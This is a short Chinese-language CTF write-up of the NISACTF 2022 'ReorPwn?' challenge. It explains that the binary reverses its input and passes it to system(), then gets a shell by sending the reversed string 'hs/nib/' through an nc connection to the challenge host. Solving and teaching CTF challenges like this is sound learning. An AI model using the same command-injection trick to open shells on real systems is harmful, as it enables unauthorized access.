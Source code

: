 # NISACTF 2022 ReorPwn?


首先checksec：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20230924153420070.png)

我靠，除了栈保护都开了（RELRO：禁止GOT表写入；NX：栈不可执行；PIE：地址随机化），直觉告诉我这题不会是Pwn。

看下反编译：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20230924153619066.png)

> Tell me what you want to execve

这里输入了一个变量a，（这个a还是在.bss区，更不可能是栈溢出），经过fun函数处理后直接system执行了。那么现在关键就是搞清楚fun函数干了什么事情。

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20230924154022554.png)

原来是字符串翻转啊。直接exp。

# exp

> /bin/sh 翻转为 hs/nib/

直接连服务器

```bash
nc node4.anna.nssctf.cn 28509
```

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20230924154253097.png)

输入`hs/nib/`,然后就getshell了

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20230924154801249.png)

收工

---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/09/re-or-pwn/  

